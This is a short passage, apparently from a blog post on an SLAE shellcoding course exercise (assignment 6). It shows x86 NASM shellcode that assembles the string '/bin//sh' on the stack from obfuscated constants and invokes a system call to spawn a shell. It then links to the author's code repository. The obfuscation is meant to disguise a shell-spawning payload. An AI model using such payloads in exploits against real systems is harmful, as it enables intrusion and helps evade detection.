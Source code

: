 ```nasm
        sub eax, 0x5b
        inc ecx
        mov edx,ecx
        push edx
        mov edi, 0x2591f1f      ; push </bin//sh>
        add edi, 0x661a1010
        push edi
        add edi, 0x5f63300
        push edi
        mov ebx,esp
        int 0x80
```

You can find the all the code to this challenge at [https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_6](https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_6).

<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
